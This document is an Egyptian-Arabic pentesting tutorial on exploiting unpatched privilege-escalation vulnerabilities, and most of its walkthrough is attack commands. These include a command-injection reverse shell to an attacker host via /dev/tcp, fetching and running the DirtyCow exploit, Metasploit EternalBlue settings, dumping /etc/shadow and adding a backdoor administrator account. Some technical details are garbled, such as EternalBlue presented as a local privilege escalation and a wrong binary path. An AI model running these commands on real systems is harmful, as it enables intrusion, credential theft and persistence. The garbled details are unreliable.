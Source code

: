 تمام، هشرح لك "Exploiting Unpatched Privilege Escalation Vulnerabilities" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هو Exploiting Unpatched Privilege Escalation Vulnerabilities؟**

#### **الشرح العميق:**
"Exploiting Unpatched Privilege Escalation Vulnerabilities" يعني استغلال ثغرات في تصعيد الصلاحيات (Privilege Escalation) اللي لسه ما اتعمللهاش تحديث (Unpatched) في نظام أو برنامج. الثغرات دي بتكون عيوب في البرمجيات (زي نواة لينكس، ويندوز، أو تطبيقات) بتسمح لمستخدم عادي (Low Privilege) يصير لمستوى أعلى (زي root أو System). "Unpatched" يعني إن الثغرة معروفة (لها CVE مثلًا) بس النظام ما اتحدثش عشان يصلحها، فالمهاجم يقدر يستغلها بسهولة لو عرف إزاي.

- **أمثلة:** DirtyCow (CVE-2016-5195) في لينكس، أو EternalBlue (CVE-2017-0144) في ويندوز.
- **الهدف:** تصعيد الصلاحيات من مستخدم عادي لـ Admin/Root.

#### **الأدوات والأوامر العملية:**
1. **فحص النظام:**
   - لينكس: `uname -r` -> `3.16.0-38-generic` (لو قديم، ممكن يكون متأثر).
   - ويندوز: `systeminfo` -> تشوف الإصدار ومستوى التحديثات.
2. **البحث عن ثغرات:**
   - `searchsploit linux kernel 3.16` ->متاحة Exploits يجيب 
1. **Metasploit:**
   - `msfconsole` -> `search privilege escalation`.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون لقيت خرم في حيطة البيت لسه محدش سده، تدخل منه وتبقى الكبير جوا! Unpatched يعني النظام نايم وما حدثش، فتقدر تطلع الباشا بسهولة."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
الثغرات دي خطيرة لأنها بتفتح الباب للمهاجم يتحكم في النظام كله لو ما اتعمللهاش Patch. يعني:
- **تصعيد صلاحيات:** من مستخدم عادي لـ root/System.
- **تحكم كامل:** يسرق بيانات، يزرع Backdoors، أو يخرب النظام.
- **انتشار أوسع:** يستخدم النظام المخترق كقاعدة لمهاجمة أنظمة تانية.

في الـ Pentesting، الثغرات اللي ما اتحدثتش بتكون ذهب لأنها بتديك طريق سريع للوصول للقمة لو النظام متأخر في التحديثات.

#### **الأدوات والأوامر العملية:**
1. **فحص الثغرات:**
   - لينكس: `cat /etc/os-release` + `uname -r` -> قارن بالـ CVEs.
   - ويندوز: `wmic qfe list` -> لو ما لقيتش تحديثات حديثة، ابحث عن Exploits.
2. **تشغيل Exploit:**
   - لو لقيت CVE-2016-5195 (DirtyCow):
     - `gcc -pthread dirty.c -o dirtycow && ./dirtycow`.
3. **Metasploit مثال:**
   - `use exploit/windows/local/ms10_092_schelevator` -> لو ويندوز قديم.

#### **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون سايب باب البيت مكسور وما صلحتوش، أي حد يخش ياخد كل حاجة! المهاجم يلاقي الثغرة دي، يبقى الكبير بتاع النظام في ثواني."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الثغرات اللي ما اتعمللهاش Patch عشان تصعد صلاحياتك من مستخدم عادي لـ Admin/Root.
- **مثال واقعي:** لو لقيت سيرفر لينكس قديم متأثر بـ DirtyCow، تشغل الـ Exploit وتاخد root.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي ثغرة زي دي، زي ما تكون لقيت كنز في لعبة، تستخدمه وتبقى الكبير بتاع الماتش من غير ما حد يحس!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 (لينكس).
  - Port 445: SMB (ويندوز).

#### **الخطوة 2: الوصول الأولي**
- لو لقيت ثغرة ويب:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id` -> لو رجع `www-data`:
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.

#### **الخطوة 3: التحقق من الإصدار**
- في لينكس:
  - `uname -r` -> `3.16.0-38-generic` (متأثر بـ DirtyCow مثلًا).
- في ويندوز:
  - `systeminfo | findstr "OS Version"` -> `6.1.7600` (Windows 7 بدون SP1، متأثر بـ MS17-010).

#### **الخطوة 4: البحث عن Exploit**
- لينكس:
  - `searchsploit linux kernel 3.16` -> يجيب DirtyCow (CVE-2016-5195).
- ويندوز:
  - `searchsploit windows 7 privilege` -> يجيب MS17-010 (EternalBlue).

#### **الخطوة 5: تشغيل الـ Exploit**
- **في لينكس (DirtyCow):**
  - `wget http://192.168.1.100/dirty.c -O /tmp/dirty.c`.
  - `gcc -pthread /tmp/dirty.c -o /tmp/dirtycow`.
  - `./tmp/dirtycow` -> يضيف مستخدم `firefart` كـ root.
  - `su firefart` -> كلمة السر `firefart` -> `id` -> `uid=0(root)`.
- **في ويندوز (MS17-010):**
  - `msfconsole`.
  - `use exploit/windows/smb/ms17_010_eternalblue`.
  - `set RHOSTS 192.168.1.10`.
  - `set LHOST 192.168.1.100`.
  - `exploit` -> Shell كـ `SYSTEM`.

#### **الخطوة 6: استغلال وتوثيق**
- كـ root/System:
  - لينكس: `cat /etc/shadow` -> تسريب كلمات السر.
  - ويندوز: `net user hacker pass123 /add && net localgroup administrators hacker /add`.
- سجل الثغرة (مثل CVE-2016-5195) والإصدار المتأثر في تقريرك.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت سلاح قوي في لعبة، ضربت بيه الكل، وطلعت الكبير بتاع الحتة! الثغرات اللي ما اتحدثتش طريقك للفوز بسهولة لو لقيتها."

---

### **الخلاصة النهائية:**
Exploiting Unpatched Privilege Escalation Vulnerabilities هي طريقة خطيرة وفعالة لتصعيد الصلاحيات لو النظام ما اتحدثش. في الـ Pentesting، دور على الإصدارات القديمة بـ `uname` أو `systeminfo`، استخدم أدوات زي Searchsploit أو Metasploit عشان تشغل الـ Exploits، ووري العميل إن نظامه زي بيت مكسور لو ما حدثش! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!